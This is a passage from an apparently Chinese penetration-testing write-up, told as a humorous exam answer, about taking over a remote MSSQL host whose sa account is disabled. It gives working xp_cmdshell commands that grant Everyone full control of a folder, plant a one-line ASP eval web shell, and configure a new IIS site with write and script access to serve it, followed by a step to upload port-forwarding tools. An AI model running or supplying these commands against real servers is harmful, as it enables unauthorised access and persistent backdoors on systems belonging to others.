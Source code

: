 10.*.*.*

堡垒鸡，你还配作一个代理吗，刀枪林立，戒备森严，我还是远远绕道莫要理会。

# 0x06 cvbb再次出场

* * *

我欲乘风归去，cvbb却死皮赖脸地抱住导演的大腿直抱怨戏份少，走不得，无奈，只得加戏！

场景一：期末考试中，cvbb正襟危坐，实则早与外部搭上了天地线。

Q：（问答题，10分）已知远程Mssql主机的系统管理帐号hds129adm，密码x，禁用了sa，请给出登录步骤。（警告：挑战主考官智商者倒扣10分）

cvbb欲答：速令黑社会24小时内占领主机！这气势，是挑战主考官的节奏吗？再看外边传进的答案：

A： （1） 运行虚拟机，添加同名、同密码帐户，以此帐户重新登录

（2） 在虚拟机中，运行SSMS，选择“Windows身份验证”登录数据库（图16，17）

（3） 启用cmdshell

（4） 在cmdshell中检查w3svc等IIS相关服务及80端口是否正常，必要时使用adsutil.vbs创建一个新站点（图18）

（5） 在所选的站点下生成一句话（图18）

（6） 使用一句话上传端口转发工具

（7） 凌晨两点准时鸣放100响礼炮提醒大家早睡早起身体好

![](http://static.wooyun.org//drops/20151027/201510271006363303816.jpeg)

图16 禁用sa也无妨

![](http://static.wooyun.org//drops/20151027/201510271006387853217.jpeg)

图17 禁用sa也无妨之二

    
    
    exec xp_cmdshell 'c:\windows\system32\cmd.exe /c cacls d:\software /e /t /g everyone:f'
    exec xp_cmdshell 'echo ^<%b=request("#")%^>^<%eval b%^>  > d:\software\1.asp'    
    
    exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs create_vserv w3svc/99'
    exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/serversize 100'
    exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/servercomment "test"'
    exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/serverbindings ":80:"'
    exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/enabledefaultdoc true'
    exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/path d:\software'
    exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/accessread true'
    exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/accesswrite true'
    exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/accessscript true'
    exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/enabledefaultdoc true'
    exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/99/root/appfriendlyName 默认应用程序'
    exec xp_cmdshell 'C:\Inetpub\AdminScripts\adsutil.vbs start_server w3svc/99'
    

图18 创建新站点，生成一句话
